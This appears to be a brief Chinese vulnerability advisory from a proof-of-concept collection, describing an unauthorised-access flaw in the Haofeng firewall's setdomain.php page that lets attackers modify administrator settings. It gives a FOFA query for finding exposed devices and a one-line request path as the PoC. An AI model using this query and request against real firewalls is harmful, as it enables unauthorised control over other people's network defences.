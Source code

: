 # 皓峰防火墙 setdomain.php 越权访问漏洞

## 漏洞描述

皓峰防火墙 setdomain.php 页面存在越权访问漏洞，攻击者通过漏洞可修改管理员等配置信息

## 漏洞影响

```
皓峰防火墙
```

## FOFA

```
app="皓峰防火墙系统登录"
```

## 漏洞复现

登录页面

![img](./images/202202110917093.png)

验证POC

```php
/setdomain.php?action=list
```

![img](./images/202202110916092.png)